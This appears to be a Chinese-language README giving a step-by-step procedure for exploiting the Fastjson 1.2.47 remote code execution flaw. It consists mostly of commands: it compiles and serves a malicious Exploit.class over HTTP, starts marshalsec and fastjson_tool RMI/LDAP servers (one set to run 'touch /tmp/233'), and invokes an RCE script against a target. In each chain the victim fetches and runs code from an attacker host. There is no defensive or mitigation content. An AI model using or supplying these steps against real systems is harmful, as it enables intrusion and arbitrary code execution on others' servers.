 ## 以Fastjson 1.2.47 利用为例
### marshalsec-0.0.3-SNAPSHOT-all.jar 启用 RMI/LDAP
```
https://github.com/RandomRobbieBF/marshalsec-jar
```
编译Exploit.java生成Exploit.class
```
javac Exploit.java
```
python3 启一个 http 部署 Exploit.class
```
python3 -m http.server --bind 0.0.0.0 8888
```
marshalsec 开启 rmi
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://x.x.x.x:8888/#Exploit" 9999
```

### fastjson_tool.jar 启用 RMI/LDAP
[@wyzxxz](https://github.com/wyzxxz/fastjson_rce_tool)大佬的tools整合了rmi/ldap+命令执行,
```
java -cp fastjson_tool.jar fastjson.HRMIServer 127.0.0.1 9999 "touch /tmp/233"
```

### fastjson-1.2.47_rce.py
> ```
> +------------------------------------------------------------------------------------+
> +      RMIServer: rmi://ip:port/exp                                                                           +
> +      LDAPServer: ldap://ip:port/exp                                                                       +
> +------------------------------------------------------------------------------------+
> + USE: python3 <filename> <target-ip> <RMI/LDAPServer>                               +
> + EXP: python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ ldap://2.2.2.2:88/Object  +
> + VER: fastjson<=1.2.47                                                              +
> +------------------------------------------------------------------------------------+
> ```

执行py脚本
- http://1.1.1.1:8080/ 为fastjson漏洞主机
- rmi://2.2.2.2:9999/Exploit 为rmi服务
```
python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ rmi://2.2.2.2:9999/Exploit
```
